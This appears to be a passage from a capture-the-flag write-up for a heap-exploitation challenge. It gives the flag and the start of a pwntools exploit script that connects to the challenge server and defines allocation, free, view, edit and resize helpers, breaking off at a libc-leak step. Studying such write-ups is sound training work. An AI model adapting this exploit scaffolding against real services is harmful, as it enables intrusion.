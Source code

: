 At last we got the flag: `bctf{j33z_1_d1dn7_kn0w_h34p_1z_s0_easy}`.

## Script

{% highlight python linenos %}
#!/usr/bin/env python3

from pwn import *

binary = './chalp'
context.log_level= 'debug'
context.terminal = ['tmux', 'splitw', '-h']
context.binary = binary

host_and_port = "gold.b01le.rs:4001"
host = host_and_port[:host_and_port.find(':')]
port = int(host_and_port[host_and_port.find(':')+1:])

# con = process(binary)
elf = ELF(binary)
libc = ELF('libc.so.6')
# gdb.attach(con,gdbscript='continue')
con = remote(host, port)

# ---------------------------------------
# Utility Functions
# ---------------------------------------

def alloc(id, size):
    con.sendlineafter(b'Resize----',b'1')
    con.sendlineafter(b"Where?", str(id))
    con.sendlineafter(b"size?", str(size))

def free(id):
    con.sendlineafter(b'Resize----', b'2')
    con.sendlineafter(b'Where?', str(id))

def view(id):
    con.sendlineafter(b'Resize----', b'3')
    con.sendlineafter(b'Where? ', str(id))
    return u64(con.recvline()[:-1].ljust(8, b'\0'))


def edit(id, size, content):
    con.sendlineafter(b'Resize----',b'4')
    con.sendlineafter(b"Where?", str(id))
    con.sendlineafter(b"size?", str(size))
    con.sendline(content)

def resize(id,size):
    con.sendlineafter(b'Resize----',b'6')
    con.sendlineafter(b"Where?", str(id))
    con.sendlineafter(b"size?", str(size))

# ---------------------------------------
# Libc Leak